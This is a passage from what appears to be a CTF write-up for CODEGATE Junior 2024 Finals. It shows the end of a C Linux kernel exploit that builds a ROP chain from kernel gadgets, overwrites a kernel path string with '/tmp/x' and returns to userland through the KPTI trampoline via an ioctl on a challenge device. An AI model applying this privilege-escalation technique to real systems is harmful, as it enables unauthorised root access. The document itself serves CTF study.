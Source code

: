 ```c
        printf("kbase 0x%lx\n", kbase);

        uint64_t usr[2];
        int dev = open("/dev/leak",O_RDWR);
        uint64_t * buf = malloc(0x200);
        memset(buf, 0x00, 0x100);
        int i = 6;
        uint64_t a = 0x526424; 
        // 526424 : mov dword ptr [rax - 0x39], ecx ; ret
        uint64_t b = 0x8bf24; //: pop rdi ; ret
        uint64_t c = 0x93e7e; //: pop rax ; ret
        uint64_t d = 0xcf4f05; // prcx 
        uint64_t kpti_trampoline = 0xe010f0 + 0x36;
        buf[i++] = kbase + c;
        buf[i++] = kbase + 0x186e6e0ULL + 0x39ULL;
        buf[i++] = kbase + d;
        buf[i++] = 132145145017391ULL; // /tmp/x
        buf[i++] = kbase + a;
        buf[i++] = kbase + c;
        buf[i++] = kbase + 0x186e6e0ULL + 0x39ULL + 4ULL;
        buf[i++] = kbase + d;
        buf[i++] = 30767ULL; // /tmp/x
        buf[i++] = kbase + a;

        buf[i++] = kbase + kpti_trampoline;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeff;
        buf[i++] = get_flag;
        buf[i++] = 0x33;
        buf[i++] = 0;
        buf[i++] = stack + 0x2000;
        buf[i++] = 0x2b;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeef;
        buf[i++] = 0xdeadbeef;
        usr[1] = buf;
        usr[0] = 0x100;
        uint64_t ret = ioctl(dev, 1337, &usr); // null dref oops - leak
        close(dev);
    }
}
```
# Bug Remover
![](/blog/CODEGATE_Junior_2024_Finals/b2acb9c7595f6cc021aaeedc66066dd1.png)